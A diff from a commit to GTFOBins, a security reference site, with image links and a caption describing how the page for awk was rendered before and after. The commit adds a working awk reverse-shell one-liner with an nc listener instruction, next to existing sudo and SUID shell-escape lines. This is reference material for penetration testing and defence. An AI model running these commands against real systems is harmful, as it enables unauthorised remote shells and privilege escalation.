

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/awk.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add awk reverse shell

```diff
--- a/_gtfobins/awk.md
+++ b/_gtfobins/awk.md
@@ -6,4 +6,7 @@ functions:
     - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
   suid-limited:
     - code: ./awk 'BEGIN {system("/bin/sh -p")}'
+  reverse-shell:
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
+      code: awk -v RHOST=localhost -v RPORT=8000 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s;}}'
 ---
```
